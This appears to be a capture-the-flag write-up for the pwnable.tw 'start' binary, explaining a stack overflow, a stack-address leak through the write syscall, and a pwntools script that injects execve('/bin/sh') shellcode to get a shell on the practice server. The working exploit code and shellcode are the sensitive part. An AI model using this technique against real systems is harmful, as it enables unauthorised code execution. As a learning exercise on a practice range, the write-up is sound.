

+++
title = "pwnable.tw - start"
date = 2019-11-22T18:30:01.515Z
updated = 2019-11-23T19:32:29.189Z
aliases = ["/posts/5cfff3292569df08a43d04cc-pwnabletw-start"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'pwntools', 'shellcode']
categories = ["ctf-writeups"]
+++

We are given a linux binary. To start off, lets run `checksec` on it:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

It looks like NX is disabled, so if needed, we can place and execute shell code from the stack. To understand how this 
binary works, I opened it with `Ghidra`. There are only two functions, `_entry` and `_exit`. Let's look at `_entry` first. 
Although the decompilation is mostly useless, the disassembly is more than enough.




We can see two `int 0x80`s that are syscalls. Looking at the value of `eax` and by referencing a 
[32-bit syscall table](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html), we can identify them. The 
reversed syscalls are shown in comments in the above screenshot. It's also clear that we control `EIP` due to the large 
` read` syscall that will overflow into the save return address on the stack.

As we saw earlier, the `NX` bit is disabled, so we can jump to our shellcode. To do so, we need to leak a stack address 
to identify where to jump to. Using [pwndbg](https://github.com/pwndbg/pwndbg), it's easy to watch the stack during 
execution.

<!-- more -->


The first value that is pushed onto the stack is `ESP` (`0x8048060`). If we were to read past the values pushed onto the 
stack, we'll be able to leak a stack address. What happens if we return to `0x8048087`? Since the `ADD ESP, 0x14` before 
the `RET` will clear the stack, the `write` syscall will print out a stack address. After leaking the stack address, we 
know that we will write our shell code 20 bytes after the base pointer. We need to return to `ESP + 0x14`. Let's try it 
out.

I'll use `pwntools` to ease communications with the binary. 

```Python

from pwn import *

context.terminal = '/bin/sh'


WRITE_ADDR = 0x8048087

r = remote('chall.pwnable.tw', 10000)

r.recvuntil(':')


payload =  'A'*0x14        # Padding
payload += p32(WRITE_ADDR) # Overwrite EIP with the write syscall

r.write(payload)

LEAKED_ADDR = u32(r.read(400)[:4])

log.info("Leaked address 0x%x" % LEAKED_ADDR)

from binascii import unhexlify
# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload =  'A'*0x14
payload += p32(LEAKED_ADDR + 0x14)
payload += shellcode
payload += 'ls\n'
r.write(payload)

r.interactive()
```

This gives us a shell, and if we explore the server, we will find the flag in `/home/start/flag`.
